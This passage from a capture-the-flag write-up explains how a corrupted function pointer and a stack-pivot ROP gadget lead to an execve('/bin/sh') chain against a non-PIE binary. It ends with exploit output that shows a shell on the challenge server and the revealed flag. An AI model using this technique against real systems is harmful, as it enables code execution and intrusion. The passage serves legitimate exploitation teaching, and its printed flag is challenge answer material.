 It first pushes the address of the corrupted person struct on the stack, then
calls the function pointer. After the call the stack will look like this:

```
         ---------------
esp:     |   Ret addr  |
         ---------------
esp + 4: |    &p[1]    |
         ---------------
         |     ...     |
```

If we can find a ROP gadget that first removes the return address from the stack
and then pops the stack pointer, we can use the memory of person 2 (which we
control) as our stack for a ROP chain. Since the target binary is not position-
independent we don't even need an infoleak to gain code execution. This one will
do:

`0x80c0620 : pop ebp ; add al, 0x89 ; pop esp ; and al, 0x30 ; add esp, 0x24 ; ret`

Now that we have control of the stack, all we need to do is to write a ROP chain
that places `/bin/sh\0` somewhere in writable memory and invokes `execve` to get
us a shell. I used a random spot in `.bss` to store `/bin/sh` because it's
writable and sits at a known address.

```
$ python2 exploit.py
[+] Opening connection to fun.ritsec.club on port 1337: Done
[*] Switching to interactive mode
$ ls
flag.txt
pwn2
$ cat flag.txt
RITSEC{g0_1s_N0T_4lw4y5_7he_w4y_2_g0}$
[*] Closed connection to fun.ritsec.club port 1337
```
